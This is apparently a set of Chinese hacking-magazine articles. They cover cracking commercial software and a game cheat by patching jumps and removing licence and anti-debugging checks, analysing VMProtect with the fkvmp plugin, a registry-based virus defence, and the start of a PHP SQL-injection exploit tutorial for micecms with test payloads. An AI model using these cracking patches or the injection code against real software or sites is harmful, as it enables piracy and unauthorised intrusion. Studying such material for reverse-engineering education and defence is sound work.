004012FC 这里就是 OEP 了。我想大家会问怎么知道这里是入口点，其实我也不确定，只是凭感觉。即使不是也没关系，我们可以继续嘛。从这里 DUMP 出来，如图20。脱壳后再用 PEiD 查一下壳，如图21，Borland C++ 1999。这样再运行一下，正常，脱壳完毕。至此，第三关的难点已经过去了。


## 动态调试部分

脱壳后的程序载入 OllyIce，经典的查找字符串如图22，很容易发现注册码就是 a4d6sdsf3。想来出题者不想在这里为难参赛者吧。注册一下，成功，如图23。


```asm
004012FC  /EB 10         jmp short 0040130E
...
00401309  /E9 98504600   jmp 008663A6
0040130E  /A1 8B504600   mov eax, dword ptr [46508B]
```

至此，三关已顺利通过。文章比较长，我也没有贴较多的代码。大家注意一下分析过程就好。作为 CrackMe，必定不止我文中提及的几种方法。要想进步还要靠读者发掘了。针对第三个 CrackMe，两种破解过程我都录了下来，读者有兴趣可以看一下。

# 突破一切障碍，完全调戏软件加弹窗工具 7.0

- 【软件名称】软件加弹窗工具 7.0  
- 【软件大小】约 33M  
- 【下载地址】自己搜索下载或者见附件  
- 【保护方式】加壳 + 参数 + 删硬盘 + 多重验证  
- 【编写语言】Microsoft Visual C++ 6.0  
- 【使用工具】Dintal + OD  
- 【操作平台】VPC、WinXP  
- 【软件介绍】可以在将 EXE 文件中插入网页弹窗  

步骤 1 和 3 的话，请搜索我的一篇文章“多方法玩一个程序全过程记录”，因为技术思路是差不多的，我在那里写得很详细了，不再详细说，所以在下面直接给出需要修改的代码或者操作方法。先看看我的 OD 设置，如图 1：


之前玩了第五版，在回复里见到有人说最新版本会删掉硬盘的东西，然后上网搜索了一下，发现还没有破解版，那就有点冲动要玩玩了。大家在玩的时候要记得用虚拟机，否则格了硬盘别找我。下面同样以一个故事作为引子吧：

故事：一个老大和他的一个小混混。小混混和老大是连体婴，平时工作都是小混混做的，老大只是负责命令小混混开工，而小混混在需要开工的时候就会被老大分离出来，然后老大给他说一下开工暗语，那小混混才会正常工作。其实他们做的是装窗口的工作，有两种服务：要么就是在这窗口里卖卖广告，不收装备费，但只能做一次这样的交易。另外的服务是收费窗，给你没广告的全套服务。别以为客户能和小混混讲价或者暴力威逼哦，要是这样的话，小混混会叫 cmd 一下分身好几个把你家都拆了……当然如果你比 cmd 更暴力的话，把 cmd 阉割了，那小混混就任由你调戏了，下面破文开始。

## 处理步骤概览

- 1. 找到真正的程序。  
- 2. 去除虚拟机中调试限制。（因为有删硬盘的危险）  
- 3. 去掉启动参数。  
- 4. 去除部分格式化硬盘或者删除硬盘的代码调用。（很重要）  
- 5. 淡定地逆向分析，寻找破解之路。（重点说）  

处理步骤 1（找到真正的程序）：我用的是 OD 附加，直接重载保存的方法。得到“tempk.txt”改名为“真身.exe”。

处理步骤 2（去除防虚拟机中调试限制）：在虚拟机里运行，提示“not run vm”，搜索字符串是没有的。OD 载入“真身.exe”，我用断点“bp MessageBoxA”断下，然后堆栈窗口里找“返回到真身.exe”尝试修改。这里我直接告诉大家在哪里跟随吧，如果你自己尝试的，应该在成功前已经给格了最少 3 次硬盘了。因为下面就有一个调用格盘代码的地方，如图 2：


```asm
00403F17  /75 0B  ; jnz short 00403F24
```

peid 对原程序查壳为 Microsoft Visual C++ 6.0，无壳。这样改 JMP SHORT 00403F38，保存出来是不能运行的，不过没有格式化硬盘了就 OK，下面继续还有启动参数限制。

处理步骤 3（去除启动参数）：因为程序启动的时候退出了，我们用 ExitProcess 断点吧，断下后跟踪。就是一层层向上翻吧，中途出现的格式化硬盘的情况先不理它，下一步才收拾它。经过跟踪分析，需要多次修改，修改的代码如下，见代码 1：


改完了后保存一个，运行，发现可以运行了。不点什么键的话貌似也没有格式化硬盘了。其实你点一下“添加”就出事了，格硬盘然后程序退出——很好，那先拿这个“添加”引起的格硬盘“动刀”吧，目的是把那个格盘的 call 给阉割了，因为不排除以后还会不小心触发它，那就悲剧了。下面以此为例分享一下思路：

处理步骤 4（去除部分格式化硬盘或者删除硬盘的代码调用）：因为有退出事件，实践证明依然是用了 ExitProcess 的，果断再利用一下这断点。OD 载入可以启动的那个版本，下好断点，然后点“添加”中断下来。中断后可以分析了，返回后在 0040B52A 下断，然后重载载入运行点“添加”，停在这里了，单步走。我们发现，当步过 0040B52C 的时候格盘了，如图 3：


因此这个 CALL 就是调用了格盘代码的，跟随进去，分析之一发现里面是格盘代码段。当步行到 004040AD 时，数据窗口跟随内存地址，然后一步一步地走可以发现，这段代码是依次用 rmid /r /s /q 格式化各个分区，如图 4、图 5。

我们分析下程序，然后点击段首，发现很多地方调用了这里，调用的地址如下：00403F27，00403FEF，00405B2E，00405B6E，00408085，00408245，00408D58，0040AD93，0040AE59，0040B0BD，0040B469，0040B52C，0040CCAE，0040D4C4，0040D50C，0040D580，0040D7BA……当然，从理论上说可以直接在段首改 retn，那很简单，但理论归理论。为了以确保安全，我建议大家有时间的还是一个个地方分析下，把所有调用都 nop 掉或者 jmp 过去，会有收益的，因为可以顺手过了不少自校验。我是 nop 掉整段，只留下最后的 retn，再一个个调用过来的都改掉的，累是累了点，只是想分析下过程学习下而已，后面玩得还能安心一点。以上就是通过点“添加”这个按钮跟踪到的地方的阉割方法……


注意：如果上面你只是 nop 那段格式盘代码，没有一个个跳转来源进行跟踪修改，那接着你可能还会遇到很多自校验，也可以说是暗桩吧。接着的过程也会略有不同，但基本原理是一样的。例如你会发现点击“目标浏览”程序会退出，所以首先需要再去除这个自校验。我也说说吧，这情况开始我觉得因为退出，所以尝试依旧用退出函数 ExitProcess。断下后分析尝试修改跳转，发现又遇到了类似改不改都会退出的那种跳转，具体位置如图 6。

大家可以试试。所以我决定换个断点。点“目标文件”后选好任意一个 exe 文件点确定，这个框就会关掉了，所以用 EndDialog 断点，重载程序，运行程序，下好断点，点“目标浏览”，选好文件，确定。中断下来了，ALT+F9 了 n 次后回到程序领空，然后单步前进吧，一直走到你发现了一处地方，就是调用格式盘代码的地方，只要把这个地方改了，自校验也过了，如图 7。到此阉割了我遇到的所有格式化代码，或者还有，呵呵，继续小心。格式化代码阉割完了，就把第一个地方的：

```asm
0040B52A    .74 0B        je short ...
0040B537    .EB ...       jmp
```

以跳过“添加”时的退出自校验。保存出来后，这个程序就给阉割了，可以放胆调戏，寻求破解——GOGOGO！


图 6


图 7

处理步骤 5（淡定地逆向分析，寻求破解之路）。毕竟已经是第七版，作者也不是吃素的，我得花点笔墨说说怎么破解了：先尝试一般思路，在注册窗口任意输入数字，点注册，弹出注册码错误，点暂停，然后 Alt+F9，点一下“确定”，断下来了。分析一下找到这里，如果数字位数不够 23 就会提示“注册码错误”，够了就会继续往下走——我用这个吧：DDDDD-DDDDD-DDDDD-DDDDD 输入后点确定，程序继续向下走：

```asm
0040E076    .74 22        je short 0040E09A
```

这个位置很奇怪，无论跳与不跳程序都会出现错误提示。见图 8：


图 8

所以呢，我们从这里看应该是有点难度的，果断换思路。根据这个软件第五版是重启验证类的，我猜这个第七版可能还是重启验证类型的。故技重施，重载，查找注册表断点 RegCloseKey，每个参考下断，运行，中断下来了，停在这：

```asm
00404A8D    .FF15 08A04300   call dword ptr [<&ADVAPI32.RegCloseKey>]
```


图 9

然后一路单步前进，直到返回到上一层调用，没有明显的可以修改的地方，试试改了几下，发现也没什么变化。看来这软件虽然是重启验证，但不再像以前那么容易了。果断再换思路，我们来从功能限制开始。这个软件设注册的时候只能用一次，而且会带上官方网址。我们来试试从这里下手，去掉所有断点，重载程序，运行起来，随便选一个程序来加窗口，任意设置，点“添加”出现提示窗口说“插入成功，因为您未注册，所以带有我们的网址！”，如果你确定后再点一次“添加”就会弹出注册框了，不能用了。

这时候看来要用到我最喜爱的“ShowWindow 断点”了。重载运行程序，设好，下好断点，点“添加”断下来了。在堆栈窗口多个返回到程序领空的地方回溯，发现也没什么好使的，无奈了一下，再点多一次运行，程序再次被 ShowWindow 断下了。再次在堆栈窗口往下找返回到程序领空的地方回溯，发现地址为 0012EE44 处，跟随到反汇编窗口，往上看了看有料子到了，如图 10：


图 10

那很好，往上翻，发现一些提示信息。对上面的跳转都下断，动态调试分析，经过多次调试分析可以得出关键所在，结论见图 10.png：只要确保软件在执行功能前的判断时，内存地址 0044CE6A 的数值为 1 就 OK 了，改之，顺便把下边的跳转改为 jmp 加强一下，然后测试，功能正常使用，一时间很高兴。

开心了一下，发现还不够完美，因为依然是“未注册”版本，注册按钮依然在。这里我再分享一下我把它搞成“已注册”版本的方法吧。还记得刚才得出的结论→判断时内存地址 0044CE6A 的数值为 1 就 OK 了。重载程序，在数据窗口 Ctrl+G 输入 0044CE6A，确定，然后右键对这个地址下硬件访问断点（字），开始运行。第一次断下了，断在 0040A9C4，上面那行代码是：

`0040A9BE 881D 6ACE44 > mov byte ptr [44CE6A], bl`

理论上将它修改为：

```asm
0040A9BE    881D 6ACE44    mov    byte ptr [44CE6A],1
```

就可以了，但是改 BL 为 1 的话就会改了下边的代码，所以向上找合适的修改机会。还是经过多次尝试，发现上面的：

```asm
0040A944    33DB    xor    ebx, ebx
```

这行代码把 bl 从原来的 F 清成 0 了，后面也没有对此有操作的命令。所以呢，果断把这行改为 `mov bl,1`，然后继续 F9 运行，再次断下在这里，见代码 2：


然后继续 F9，再次断下，在这里，见代码 3：


然后继续 F9，坚持，最后了，断在这里，见代码 4：


好，搞定了，复制全部，保存吧。运行，KO!!!~All have be done ^_^

# 经验总结

程序的自校验给我们带来很多麻烦，但是一定要保持冷静的头脑和淡定的心态。在不断尝试的过程中总会有收获的，所以，不要怕麻烦，不要怕失败，just go on~

# ■ 菜鸟 DNF 外挂破解记

今天通过某种方式得到了一个叫做“飞鱼 DNF 自动收货”的外挂，趁着没下班破解了一下，没想到意外地简单。作为一个合格的文子，我认为是该贡献的时候了。

首先，我们来用 Peid 看一下使用什么语言写的。所谓知己知彼么，先混个脸熟，如图 1。


图 1


图 2

此程序是用 VB 写的，P-Code。本人很菜，对 P-Code 是一点不了解。不过不了解也照样可以破，因为程序是万变不离其宗的，只要掌握了程序在什么时候用了什么 API 函数，然后再掌握大概的流程，这个程序就能搞定。

首先拿出 OD 加载这个外挂，按 F9 让它跑起来。如果跑不起来，说明你的 OD 被检测到了。这个外挂用到的检测方式比较古老，先说一下原理。首先在操作系统中，不是所有进程都能用 OpenProcess 以 PROCESS_TERMINATE 的权限打开的，比如 explorer.exe 和 csrss.exe。如果想打开这两个进程，调用 OpenProcess 函数的进程的令牌权限必须是 debug，而普通进程默认是没有 debug 权限的。在没有 Debug 权限的进程中使用 OpenProcess 打开 explorer.exe 和 csrss.exe 的时候，会返回失败。用 GetLastError 获取最后的错误，返回值是 5，代表没有权限去打开目标进程。

当调试器调试一个程序的时候，首先要赋予这个程序的进程 debug 权限，但是这样问题就出现了。既然被赋予了 debug 权限，那么用 OpenProcess 以 PROCESS_TERMINATE 的形式打开 explorer.exe 和 csrss.exe 的时候不就能成功了么？没错，许多反调试代码就是这么做的。这个外挂也正是这样的。他先用进程快照的方式得到 explorer.exe 和 csrss.exe 的 PID，然后使用 OpenProcess 以 PROCESS_TERMINATE 的权限打开它们，并且检查失败代码。如果成功了，就说明自己被调试，程序结束。

然后，选择“反调试”选项卡，在 Process32Next 前面打勾，然后确定，如图 3。


图 3

然后重新启动，重新加载一下。再按 F9 就可以调试了。在注册那里随便输入点东西，点击注册会有下面的提示，如图 4。首先呢，这个东西是 P-Code 的，P-Code 是 VM 的前身。对这种东西我是没有研究。但是我知道，只要你注册，就需要数据的运算；一旦涉及到数据的运算，就不可避免地要访问数据，而数据的存储有很大几率是落在 Data 段的。所以我们介绍一种方法，虽然不是百试百灵，但是对付眼前的这个外挂确实好用的。在 OD 上按下 Alt+M，然后找到目标程序的 data 段，右键，设置内存访问断点，如图 5。

但是这个外挂逻辑上不严谨，有个 Bug，就是当 Process32Next 第一次执行就返回失败的时候，程序可以正常运行。也就是说让 Process32Next 返回假，就可以躲避检测。可以手动去改，也可以用 OD 插件。我的方法是下载 32 破解的 OD，然后点击：插件 --- Olly Advanced --- Options，如图。

然后在外挂上输入假注册码，点击注册，此时 OD 断了下来，断下来的位置就是我们要找的“注册”按钮所对应单击事件处理函数。此方法并不是万能油，也许下个程序就不好用了。关键是这种对付 P-Code 的思想。


图 4


图 5

然后，就可以右键——内存断点——删除内存断点了。接下来就是单步跟踪，快速浏览代码寻找有用的东西，来到下面这里：

```asm
004D0546  FF15 78124000   call dword ptr [...]
004D054C  66:833F FF      cmp word ptr [...],0xFFFF
004D0550  0F85 F2010000   jnz 004D0748
004D0556  8B16            mov edx,dword ptr [esi]
004D0558  56              push esi
```

注意 004D0550 那一行，有一个 jnz 跳转，跳向 004D0748。这个跨度是比较大的，前面都是一些很小的跳转，这个跳转跨度这么大，其中必有玄机。这个跳转本来是跳的，这里我不让它跳，把它右键——二进制——用 NOP 填充，然后按 F9 运行。这里虽然提示错误，但是外挂的界面确实是弹出来了，说明这就是关键跳，如图 6。


图 6

下面重新用 OD 加载，来到刚才那个 004D0550 的关键跳。为了让这个跳转不起作用，我们再次 NOP 掉它。然后单步跟踪，来到下面这里：

```asm
004D0635  8D55 A4        lea edx,[...]
004D0638  51             push ecx
004D0639  8D45 B4        lea eax,[...]
004D063C  52             push edx
004D063D  50             push eax
004D0641  83C6 48        add esi,0x48
004D0644  53             push ebx
004D0645  51             push ecx
004D0649  C745 84 ...    mov dword ptr [...]
004D0650  FF15 B0144000  call dword ptr [...]
004D0656  8D55 94        lea edx,[...]
```

看 004D0650 这一行，这个 call 就是弹出错误提示的。call 我们把它也 NOP 掉，但是为了保持堆栈的平衡，上面的几个 push 也要 nop，变成图中的形式，如图 7。

```asm
（OD 反汇编代码截图，含多行 nop / lea / mov 指令）
```

图 7

```asm
004D048A 895D D8    mov dword ptr ss:[ebp-0x28],ebx
```

在 004D0482 的这一行后面，有着“yanzheng.gotoip1.com/dfyu/chk2.asp”这么一个网络地址，说明该货第一次的验证是网络验证。所以我猜测，它的第二次验证也是网络验证，用的还是同一个地址。所以我就用 OD 打开“收货8-21b_破解001.exe”，F9 运行，来到第二次检测验证码的那个界面。在 OD 上，右键---分析---分析代码，然后再右键---查找---所有参考文本字串。然后在弹出的界面，右键---查找文本，把弹窗设置成图中所示。


图 9

然后，右键—复制可执行文件—所有修改，在弹出的框中选“全部复制”。然后在弹出的窗口点击，右键—保存文件，保存成了“收货8-21b_破解001.exe”。然后双击“收货8-21b_破解001.exe”，随便输入注册码，点击注册就能破解运行了，但是有个问题，问题如图 8。


图 8

搜索字符串“yanzheng.gotoip1.com/dfyu/chk2.asp”，并按 Ctrl+L 查找下一个，每找到一个，就按一下 F2，设置一个断点，如图 10。

```text
（字符串引用列表截图，含多处 UNICODE "yanzheng.gotoip1.com/dfyu/chk2.asp"）
```

图 10

被我画框框的地方，要求输入注册码，说明它还有一次验证。小小的软件还挺麻烦的。这时呢，我们可以回忆一下前面的东西，来到刚才的位置向上翻一翻，看这一段代码：

```text
（左下代码截图，含 004D047F、004D0482、UNICODE "yanzheng.gotoip1.com/dfyu/chk2.asp" 等）
```

我一共找到了 4 个 `yanzheng.gotoip1.com/dfyu/chk2.asp`，然后 F9 让我们的破解目标跑起来，点一下外挂上的“F10 启动”，此时 OD 就断下来了。看来我的猜测是对的。单步跟踪来到下面的位置：

```text
（右下大段反汇编截图，含 0075FF9C、0075FFAB jne、mov/push/call 等指令）
```

看 0075FFAB 这一行的 je 跳转，跳向 00760055，这个跳……转相对于别的跳转，跨度是很大的，肯定有问题。这个跳转本来没有跳，我让它跳，把 je 改成 jmp，变成下面的形式。


然后老一套，右键—复制可执行文件—所有修改，在弹出的框中选“全部复制”。然后在弹出的窗口点击，右键—保存文件，在下保存成了“收货8-21b_破解002.exe”。运行一下，发现木有任何问题，破解成功。其实正统的破解方法是，对目标程序下 GetWindowTextW 和 GetWindowTextA 的断点，这个方法我也试过了，麻烦归麻烦，但好在管用，这篇文章在此结束。

（文章中涉及的相关工具本期光盘已收录）

## 分析VMP的神器——fkvmp

suno

众所周知，Vmprotect 作为一款风头正劲的保护壳，最大的卖点就是划时代的虚拟机保护功能。而正所谓蛇打七寸，由 Safengine 的作者 nooby 和 StrongOD 的作者海风月影强强联手出品的 OD 插件 fkvmp，剑指的就是 VMP 的虚拟机指令。跟踪过 VMP 的壳子应该都深有体会，一旦跟踪陷入 VM，就会被眼花缭乱的跳转玩弄于股掌之中，而不得其要领。现在，划时代的虚拟机保护终于遇到了划时代的虚拟机指令识别插件，不但调戏 VMP 将不再是梦想，如果 Vmprotect 的作者不对 VM 大动手术，那么很可能就被 fkvmp 敲响丧钟。

其实，以上是些夹杂着狭隘民族主义的广告词了，毛主席曾经教导我们，决定战争胜负的关键，是人而不是武器。尽管我们有了 fkvmp 这款神器，但不会用，不知道怎么发挥它的神奇，那面对 VMP 仍然是束手无策的。现在，就让我们走进 fkvmp。

fkvmp 了。接下来我们直接上手 VMP，来体验 fkvmp 的强大。

以一个用 vmp208 保护的程序为例，这个程序从 0x00401000 开始使用了虚拟机保护。还是 OD 载入，停在 OEP，执行到 0x00401000。现在在 OD 的反汇编窗口右键，选中 fkvmp 选项，点击 start，fkvmp 开始分析（图1）。

这里需要说明一下。如果只使用 VMP 的虚拟机保护指定地址的代码，是需要手动停在虚拟机的入口，否则 fkvmp 会识别不出来。如果目标软件还使用了 VMP 的壳保护功能，那么可以尝试在程序入口就执行分析。

分析完了，结果在哪看呢？在记录窗口，也就是 OD 右上角的“L”按钮，快捷键是 Alt+L。打开之后，会看到一大串甲骨文，主要分为两部分。第一部分，VM handle 的 handle table（图2）。在虚拟机中，VM handle 大致可以理解为虚拟机指令，而一条 VM handle，通常由多条 x86 的指令组成。以图2为例，fkvmp 识别的一条 VM handle 为：

```text
00:48FA8598 --> 409337[shl32]
```

这是什么意思呢？00，指的是这条 VM handle 的字节码。在 VM 中，字节码起到类似于剧本的功能，VMP 会将要保护的代码编译成字节码，然后在软件运行时由虚拟机解释执行。

接着是 VM handle 的地址。0x48FA8598，这是原始地址。0x409337，这是实际地址。

最后是 shl32，这是这条 VM handle 的功能。看名字是不是有点像 x86 的 shl 指令？对了，正如我们刚刚所说，VM handle 大致可以理解为虚拟机指令，这个 shl32 就是 VMP 虚拟机的指令，在这台虚拟机中这条指令的字节码是 0x00。


图1

首先，猛击这里下载：http://www.unpack.cn/thread-68177-1-1.html。然后将 fkvmp.dll 放在 OD 安装路径的 plugin 文件夹下，这时启动 OD，应该就能在插件栏看到。

我们设计一台 x86 的虚拟机，那么也得有一条名为 shl 的 VM handle，而对应的字节码就是 shl 的反汇编码。


图2

```asm
0040935A    9C            pushfd
0040935B    8945 04       mov dword ptr [ebp+4], eax
0040935E    8D6424 10     lea esp, dword ptr [esp+10]
```

限于篇幅，这里只截取一部分。如果有跟踪 VMP 的经验，一定会对这些不知所云的指令组合深恶痛绝。现在，有了 fkvmp 插件，我们就可以一眼看出，这里其实是 shl32。

是不是很方便？这些形态怪异又会变型的 VM handle，正是 VMP 保护强度的两个重要来源之一。现在，却成了 VMP 的软肋。这样，只要对 VMP 的虚拟机架构有所了解，找到字节码所在，就可以逆出虚拟机所保护的内容。

接着我们看看 VMP 是怎样实现 shl32 功能的。转到反汇编窗口，查看 0x409337，可以看到：

```asm
00409337  66:0FB6C1      movzx ax, cl
0040933B  8B45 00        mov eax, dword ptr [ebp]
0040933E  57             push edi
0040933F  FEC9           dec cl
00409341  8A40 04        mov cl, byte ptr [ebp+4]
00409344  0FA3CA         bt edx, ecx
00409347  68 6B1C690D    push 0D691C6B
...
```

```asm
00409EF6  8A06           mov al, byte ptr [esi]
00409EF8  66:0FADC9      shrd cx, cx, cl
00409EFC  F5             cmc
00409EFD  30D8           xor al, bl
00409EFF  66:0FBCCF      bsf cx, si
00409F03  66:C1D9 08     rcr cx, 8
00409F07  D0E5           sal ch, 1
00409F09  04 95          add al, 95
...
```


图3

这里是本例的 VMP 虚拟机的主循环，主要是一些解码和读取操作，注释都是 fkvmp 插件自动标记的，可以很方便地找出读取字节码的地方。如果我要懒一点，会想，既然 fkvmp 插件都识别出来了，那能不能干脆让插件自动识别 VMP 的字节码呢？

你想到的，插件都为你做到了。这就是 fkvmp 插件在记录窗口显示的第二部分（图3），这就是 VMP 虚拟机字节码的“反汇编码”。以第一行为例：

```text
[1D      ] SetR32      r1
```

“1D”是第一个字节码，“反汇编”过来是“SetR32 r1”。我们可以参照第一部分的 handle table，找到第 0x1D 项：

```text
1D: 48FA8625 ---> 4093C4[SetR32]
```

这就是 VMP 虚拟机第一个要执行的 handle，起始地址是 0x4093C4。现在，静态的 handle table 和供虚拟机动态执行的字节码，就结合起来了。

现在还有个问题。看了第二部分，也就是 VMP 虚拟机字节码的“反汇编码”，发现还是绕来绕去的很晕，离还原 VM 还有一段距离。能不能让插件完成呢？

很可惜，现在还不行。毕竟这是 VMP 保护强度的第二大来源，只要走完了这步，VMP 就完全被征服了。然后，这临门一脚，并不是那么轻而易举，还需要更多经验和时间。不过，既然神器 fkvmp 都已经帮我们迈出分析 VMP 的一大步，那我们是不是也该自己努力，尝试自力走完最后的一段。

（文中涉及的相关程序本期光盘已收录）

# 防毒新视角——巧改文件关联防御病毒侵袭

郭建伟

为了防止病毒入侵，我们通常依靠杀毒软件来保卫系统安全。但是，杀毒软件的发展实际上是落后于病毒的，往往是新型病毒出现之后，杀毒软件才被动地升级，之后才能查杀该病毒。如果您没有及时升级病毒库，那么杀毒软件可以说形同虚设。

其实，我们完全可以另辟思路，来应对未知病毒的入侵。因为病毒侵入系统后，首先是非法取得启动权，之后会对各种可执行文件（例如 Exe、Com、Dll、Pif 等）进行感染，达到其传播的目的。实际上，如果我们可以巧妙地更改文件关联，让病毒找不到侵袭的目标，不就可以让其“英雄无用武之地”了吗？这不失为一种独特的主动防御手段。本文就简单地分析其实现方法。

我们知道，当病毒侵入系统后，往往直接对各种可执行文件“下手”，不过很多病毒在感染前并没有对可执行文件进行检测，而是直接根据其扩展名来进行确定文件的“身份”。因此，通过更改文件关联的办法就可以躲过病毒的侵袭，而且可以避免病毒通过文件关联来发作的目的。实际上，在 Windows 中是可以自由定义可执行文件的后缀的。在资源管理器中点击菜单“工具”→“文件夹选项”，在弹出窗口打开文件类型面板，在其中点击“新建”按钮，在弹出的对话框（如图1）中随便输入新的后缀名（例如“yun”），当然不能和存在的扩展名重复。点击“高级”按钮，在“关联的文件类型”列表中选择关联的文件类型，这里选择“应用程序”项，表示和可执行文件建立关联，之后点击确认按钮保存配置。


图1

在资源管理器中任选一个 exe 执行程序，将其后缀改为“.yun”，然后双击就可以执行该程序了。这样某些病毒遇到该“.yun”文件时，就可能将其作为普通文件而忽略了。实际上，您也可以编辑一个注册表文件来实现上述操作，在记事本中编辑以下内容：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\.yun]
@="exefile"
```

将其保存为“newexe.reg”，直接双击该文件就可以创建与可执行文件的关联了。当然，您完全可以将其中的“exefile”更改为“comfile”等其它的可执行文件类型，进而更改相关的文件关联。

但是，现在很多病毒都采取了将自身关联到特定文件类型的方法，来达到激活的目的。虽然我们这里将“.yun”关联到可执行文件类型上，但是如果病毒也将自身关联到“.yun”类型上，那就无济于事了。对于这种情况，可以采取替换“exefile”标识的办法加以解决。在记事本中输入以下内容：

```reg
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\yunfile]
...
[HKEY_CLASSES_ROOT\yunfile\DefaultIcon]
@="%1"
[HKEY_CLASSES_ROOT\yunfile\shell]
[HKEY_CLASSES_ROOT\yunfile\shell\open]
"EditFlags"=hex:00,00,00,00
[HKEY_CLASSES_ROOT\yunfile\shell\open\command]
@="\"%1\" %*"
[HKEY_CLASSES_ROOT\yunfile\shell\runas]
[HKEY_CLASSES_ROOT\yunfile\shell\runas\command]
@="\"%1\" %*"
[HKEY_CLASSES_ROOT\yunfile\shellex]
[HKEY_CLASSES_ROOT\yunfile\shellex\DropHandler]
@="{86C86720-42A0-1069-A2E8-08002B30309D}"
[HKEY_CLASSES_ROOT\yunfile\shellex\PropertySheetHandlers]
...
```

```reg
Windows Registry Editor Version 5.00

[HKEY_CLASSES_ROOT\yunfile]
...
```

之后将其保存为“yunfile.reg”文件，双击后即可创建和“exefile”标识完全相同的“yunfile”标识。上述代码实际上很简单，就是将注册表编辑器中的“HKEY_CLASSES_ROOT\exefile”路径导出，并将其中的“exefile”全部更换为“yunfile”即可。之后需要对上述“newexe.reg”文件进行相应修改：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Classes\.yun]
@="yunfile"
```

这样再双击“newexe.reg”文件，就会在注册表文件关联时使用“yunfile”替换“exefile”标识。这样在资源管理器中将选中的任意 exe 文件的后缀更改为“.yun”，照样可以正常执行，而且也不怕病毒和 exe 文件建立关联了，因为“exefile”标识已经不存在了。实际上，按照上述想法，我们完全可以“开发”一种全新的防毒方法。

首先在注册表编辑器中找到“HKEY_CLASSES_ROOT\exefile”分支，将其导出为单独的文件进行备份。之后在注册表中选中该分支，在右侧窗口中双击“默认”项，在弹出的编辑窗口中将“数值数据”更改为不存在的文件关联（例如“Nonefile”等），之后重新启动电脑，在 Windows 重启后，任务栏上会打开很多记事本窗口……最后导入上面保存的注册表文件，这样就可以恢复正常程序的执行操作。

## 跟我一起编写PHP普通EXP

EXP 全称为 exploit，也就是漏洞利用程序。经过一段时间的学习，我发现编写 EXP 也不是大牛的专利，小菜也能编写出属于自己的 EXP。能够编写 EXP 的语言很多，比如说 c、c++、perl、python 等各种语言，不同的语言在不同的环境下有相对应的优势。由于今天写的 EXP 对应的是一个 PHP 的整站系统，所以就使用 PHP 编写 EXP。

一个叫 micecms 的 PHP 整站系统，这个系统是基于 MVC 框架的。这里简单说明下什么是 MVC，MVC 是三个单词的缩写，分别为：模型（Model）、视图（View）和控制（Controller）。MVC 模式的目的就是实现 Web 系统的职能分工，使用 MVC 框架可能开始觉得比较麻烦，不过一旦搭建起来，后期的开发和维护相当方便。

## 一、前期准备

俗话说得好，工欲善其事，必先利其器，下面就介绍下所需要的前期准备。

- PHP 运行环境（包括 PHP5、IIS 或者 Apache）
- 数据库（PHP 系统一般使用 MySQL 数据库）
- 代码编写工具（可以使用专业的工具如 Zend、PHPEdit，也可以使用 Notepad++ 等轻量级工具）
- 其它辅助工具（如注入工具、抓包工具）
- PHP 语言基础（必要的基础是需要的）

这里如果小菜觉得 PHP 和数据库不太好搭建，可以使用 XAMPP，安装后就会搭建起 PHP5+MySQL5+Apache 的环境了。由于这篇文章主要是介绍 EXP 的编写，这里就不具体说安装过程了。


图1

首先通过 POST 方式获得了 pollcategory_id，图1。然后就带入数据库查询，在带入数据库查询的过程中并没有对 pollcategory_id 进行过滤，因此注入漏洞出现了……这个页面访问的地址为 http://127.0.0.1/poll，可能一些小菜看出来了，这和普通的注入链接不太一样。

## 二、漏洞分析

编写的是漏洞利用程序，当然得有漏洞，这里找了一个叫 micecms 的 PHP 整站系统……


这时候我们用浏览器打开这个表单，填入“1 and 1=1”，图3。点击提交，出现空白页面，我们查看页面源代码，出现投票失败语句，图4。


下面我们在表单中填写“1 and 1=2”，点击提交，查看源代码，很明显和上面不一样了，图5。这其中不一样的地方就是关键字，也就是判断语句执行成功还是失败的重要条件。由于关键字非常重要，所以我们最好选择便于程序识别的英文语句，这里我选择 Pollresults 作为关键字。


好了现在关键字选择好了，就可以注入了。如果这么手动地猜解，我们每猜解一个用户就需要上百条的语句，估计从早上开始猜解，猜完一个用户就快要到中午了。因此我们将要将这些过程交给程序来做。

### 三、EXP编写

通过上面的分析，我们应该就知道编写 EXP 的必要性了，下面我们就具体开始编写代码。首先我要说明下，PHP 作为一种脚本语言，一般是通过浏览器访问的。不过 EXP 一般是在 cmd 下运行的，这叫做 PHP 的 CLI（command-line interface，命令行界面）模式，可在用户提示符下键入可执行指令的界面。

首先写点简单的练下手，也就是写下作者信息或者说叫使用方法的东西，如下图6。

语句比较简单，我只是说下第9句 `if($argc!=2 && $argc!=3)`，其中 `$argc` 代表的是参数的个数，比如说我填写的 `micecms.php localhost /micecms/` 这个参数就是3个。那么如果你填写的参数不是2个或者3个，程序就显示使用说明，并且退出。这里我演示一下，这里我输入了3个 test，也就是参数多了一个，就显示了如下页面，图7。

```php
<?php
 echo '...';
 // micecms sql injection exploit
 if($argc!=2&&$argc!=3){
   echo 'usage...';
   exit();
 }

（对应图6）
```


要利用这个注入漏洞，就是要程序模拟提交注入语句，其中常见的提交语句给服务器有两种方法，一种是通过 fputs 方式提交，一种是通过 curl 提交。网上大多数是通过 fputs 方式提交的，不过经过我的测试，使用 curl 提交无论是速度还是稳定性都高于 fputs 方式，所以这里我选择 curl 方式。下面我就写了一个 Send_Data 函数，图8。首先，`$host` 代表的是主机名，`$path` 代表的是网站路径，比如如果网站地址为 `www.xxx.com/micecms/`，那么 `$host` 就是 `www.xxx.com`，`$path` 为 `/micecms/`。`$myheader` 是发送的 HTTP 头信息，经过测试，不要头信息也可以成功，不过为了规范和以后写 HTTP 头注入方便，这里我还是写出来了。下面就是使用 curl 发送数据，这里说明下，由于是 POST 注入，所以 method 使用 POST。其中 `$resp` 就是服务器返回的代码，程序也就根据返回代码判断注入是否成功。其中 curl_setopt 就是设置各种参数，`$data` 就是我们提交的注入语句，通过程序自动向服务器发送注入语句，也就比手工速度快多了。

```php
function Send_Data($host,$path,$method='POST',$data=''){
  // curl init
  // set header/options
  // post payload
  // return response
}

（对应图8）
```

写了发送语句，就要准备注入语句了，这里注入语句有两种方式获得。第一种是通过网上总结的注入语句，然后根据自己的情况进行改动。第二种是通过注入工具找一个可...以注入的地方，然后通过 WinSock Expert 等抓包工具进行抓包。由于抓包在黑手以前很多文章都提到过，这里就不说明。这里我简单地说下一般盲注入的过程。

